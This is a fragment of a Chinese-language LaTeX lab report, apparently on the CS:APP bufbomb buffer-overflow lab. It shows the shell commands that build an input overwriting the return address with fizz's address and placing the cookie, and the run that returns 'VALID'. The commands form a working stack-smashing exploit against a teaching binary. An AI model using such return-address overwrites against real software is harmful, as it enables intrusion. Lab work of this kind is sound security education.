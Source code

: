 \documentclass{paper}
\begin{document}
\begin{enumerate}
\begin{enumerate}
结合第一问中的分析，我们需要将\verb|fizz|函数的入口地址放在输入内容中的第\verb|44~47|个字节中，并将cookie的值放在第\verb|52~55|个字节上即可。

下面构造输入的16进制字符串：
\begin{lstlisting}
$ ./gencode.sh 44 00 > fizz_U202115325.txt // byte 0~43
$ echo -n "ba 8c 04 08 " >> fizz_U202115325.txt // byte 44~47，fizz的地址
$ ./gencode.sh 4 00 >> fizz_U202115325.txt // byte 48~51
$ echo -n "96 e6 52 7b" >> fizz_U202115325.txt // byte 52~55，cookie值
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|fizz_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中：
\begin{lstlisting}
$ ./hex2raw < fizz_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Fizz!: You called fizz(0x7b52e696)
VALID
NICE JOB!
\end{lstlisting}
顺利通过！

\end{enumerate}

\subsubsection{阶段3:Bang}
\end{document}
